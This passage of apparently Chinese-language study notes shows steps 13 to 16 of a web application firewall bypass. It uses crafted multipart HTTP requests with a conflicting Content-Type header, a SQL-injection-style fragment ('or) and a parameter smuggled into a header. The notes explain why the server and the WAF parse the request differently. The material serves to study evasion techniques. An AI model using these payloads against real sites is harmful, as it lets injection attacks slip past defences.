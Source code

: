 13. 嘗試加入 Content-Type: 200 OK，且結果正確
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="action" 

search 
--x 
Content-Disposition: form-data; name="query"; 'or
Content-Type: image/jpeg

DEVCORE 
--x--
```
14. Content-Type嘗試成功，那塞入黑名單: 200 OK，且結果正確
![image](https://hackmd.io/_uploads/ByZf4w34ye.png)
15. 更改 multipart 的 Content-Type: 200 OK，且結果正確
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded; multipart/form-data; boundary=x 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="action" 

search 
--x 
Content-Disposition: form-data; name="query"; 'or
Content-Type: image/jpeg

DEVCORE 
--x--
```
>[!Caution]
> Server & WAF 看得不一樣：
> - 在伺服器還是會優先解析 `application/x-www-form-urlencoded`，而非`multipart/form-data`
> - 針對 WAF 會誤認為整體 request 是 `multipart/form-data`，因此不會去檢查到 multipart 的參數或內容
> ![image](https://hackmd.io/_uploads/Bk2fMcZB1x.png)


16. 將 payload 塞入 header: 200 OK，且結果正確
![image](https://hackmd.io/_uploads/rJLE8vnNJe.png)
>[!Important]
> 為什麼 Server 可以執行 query? ~~但 WAF 看不見(上面已解釋)~~ 
> > 當伺服器因為 Content-Type priority 解析 由左至右第一個 `application/x-www-form-urlencoded;`來提取內容。
```HTTP
POST /action HTTP/1.1 
Host: devco.re 
Content-Type: application/x-www-form-urlencoded; multipart/form-data; boundary=x 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="action" 

search 
--x 
Content-Disposition: form-data; name="query"; 'or
Content-Type: image/jpeg&action=search&query=DEVCORE

```